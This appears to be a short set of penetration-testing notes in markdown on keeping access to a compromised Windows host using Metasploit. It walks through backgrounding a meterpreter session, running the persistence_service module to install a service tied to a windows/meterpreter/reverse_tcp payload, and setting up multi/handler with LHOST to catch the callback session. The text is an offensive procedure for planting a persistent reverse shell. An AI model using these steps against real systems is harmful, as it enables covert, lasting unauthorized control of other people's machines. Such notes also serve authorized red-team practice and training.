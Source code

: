 # Establishing Persistence in Windows
After gaining a foothold, you will need to establish persistence on the target

1. Gain access to meterpreter on host
2. Background session

Module: **exploit/windows/local/persistence_service**  
This will create a persistant service that is paired with meterpreter payload  
- remote_exe_name
- Remote_exe_path
- Service_Name -- most important. May only need this one
- set payload -- can only be windows/meterpreter/reverse_tcp

1. Setup Multi Handler - ```use multi/handler```
2. set Payload -- ```set payload windows/meterpreter/reverse_tcp```
3. set LHOST
4. run
You should immediately receive a meterpreter session
